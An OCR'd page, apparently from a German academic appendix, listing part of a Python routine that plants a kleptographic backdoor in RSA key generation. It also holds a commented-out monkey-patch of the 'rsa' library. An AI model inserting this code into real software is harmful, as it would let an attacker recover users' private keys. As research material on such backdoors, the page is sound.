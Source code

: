 \begin{lstlisting}[language=PyBrIM]
        try:
            vP = rsa.core.encrypt_int(p, attack_key.e, attack_key.n)

            def padded_concatenation_in_binary(prev, tail):
                prev = "{0:b}".format(prev)
                tail = "{0:b}".format(tail)
                prev = "0" * (int(nbits) - len(prev)) + prev
                tail = "0" * (int(nbits) - len(tail)) + tail

                return int(prev + tail, 2)

            min_bit_construct_Q = padded_concatenation_in_binary((vP - 1), 0)
            max_bit_construct_Q = padded_concatenation_in_binary(vP, pow(2, nbits // 2) - 2)
            lower_bound_Q = (min_bit_construct_Q // p)
            upper_bound_Q = (max_bit_construct_Q // p)

            def find_prime_in_bounds(lower_bound, upper_bound):
                for prime_candidate in range(lower_bound, upper_bound + 1):
                    if rsa.prime.is_prime(prime_candidate):
                        return prime_candidate
                else:
                    raise ValueError("Margin to small: ", lower_bound, upper_bound)

            q = find_prime_in_bounds(lower_bound_Q, upper_bound_Q)

            def is_acceptable(p: int, q: int) -> bool:
                if p == q:
                    raise ValueError("Condition 7 not satisfied.")

                if not nbits * 2 == rsa.common.bit_size(p * q):
                    raise ValueError("Condition 3 not satisfied.")

            is_acceptable(p, q)

            created = True

        except OverflowError:
            pass
        except ValueError:
            pass

    return max(p, q), min(p, q)


"""
# Option 2 --- Part 2
"""

# sys.modules['rsa.key'].find_p_q = find_p_q

# ------------ Malicious code ends here ------------
\end{lstlisting}

\newpage
Programmcode zur Extraktion der Schlüsselparameter, durch gegebenen öffentlichen Schlüsseln des Ziels und privaten Schlüssel des Angreifers:


